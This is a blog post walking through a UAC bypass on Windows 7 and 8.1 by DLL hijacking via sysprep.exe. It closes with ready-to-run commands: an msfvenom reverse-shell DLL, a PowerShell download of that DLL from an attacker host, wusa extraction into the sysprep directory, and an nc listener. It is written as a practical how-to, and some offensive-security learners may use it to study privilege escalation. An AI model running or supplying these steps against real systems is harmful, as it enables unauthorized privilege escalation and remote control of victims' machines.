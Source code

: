 ```yaml
---
title: 		"UAC Bypass: Windows 7 and Windows 8.1"
date:		2015-10-02
tags:		[posts]
excerpt: 	"This is my first article, I hope you like it!"
---
```

(At the end you will find the commands used)

**Target 1: Windows 7 x64 build 6.1.7601**

Suppose you have a limited shell, our user is part of the "Administrators" group
<img src="{{ site.url }}{{ site.baseurl }}/images/uacbypass1.png" alt="">

but we can't perform privileged operations
<img src="{{ site.url }}{{ site.baseurl }}/images/uacbypass2.png" alt="">

let's bypass UAC!

First we create a DLL containing a reverse shell:
<img src="{{ site.url }}{{ site.baseurl }}/images/uacbypass3.png" alt="">

From our limited shell we can download the DLL with powershell:
<img src="{{ site.url }}{{ site.baseurl }}/images/uacbypass4.png" alt="">

Now we use wusa to move the dll into a privileged dir(sysprep):
<img src="{{ site.url }}{{ site.baseurl }}/images/uacbypass5.png" alt="">

We can see that the file has been successfully moved
<img src="{{ site.url }}{{ site.baseurl }}/images/uacbypass6.png" alt="">

Let's run sysprep.exe and listen with 'nc':
<img src="{{ site.url }}{{ site.baseurl }}/images/uacbypass7.png" alt="">

Now we have bypassed the UAC and we can create a new user!
<img src="{{ site.url }}{{ site.baseurl }}/images/uacbypass8.png" alt="">
<img src="{{ site.url }}{{ site.baseurl }}/images/uacbypass9.png" alt="">

**Target 2: Windows 8.1 x64 build 6.3.9600**

This time we have to do the same tasks but rename the dll differently:
<img src="{{ site.url }}{{ site.baseurl }}/images/uacbypass10.png" alt="">

Once downloaded to the target machine and used wusa for copying into sysprep, We can launch sysprep.exe:
<img src="{{ site.url }}{{ site.baseurl }}/images/uacbypass11.png" alt="">

And here you're done!

For further information, look at the resources, there are other methods to bypass the UAC.
Have fun :)

**Commands:**
**Kali**
```console
>msfvenom -p windows/x64/shell_reverse_tcp LHOST=ip LPORT=53 -f dll -o CRYPTBASE.dll
>cp CRYPTBASE.dll /var/www
>service apache2 start
>nc -vlp 53
```

**Windows 7**
```console
>powershell.exe -Command (new-object System.Net.WebClient).DownloadFile('http://10.1.1.3/CRYPTBASE.dll','dest path CRYPTBASE.dll')
>makecab "source path CRYPTBASE.dll" "dest path try.tmp"
>wusa "source path try.tmp" /extract:"path to sysprep dir"
>cd "path sysprep (c:->windows->system32->sysprep)"
>sysprep.exe
```

**Resources:**
1. [](https://github.com/hfiref0x/UACME)
2. [](https://www.greyhathacker.net/?p=796)
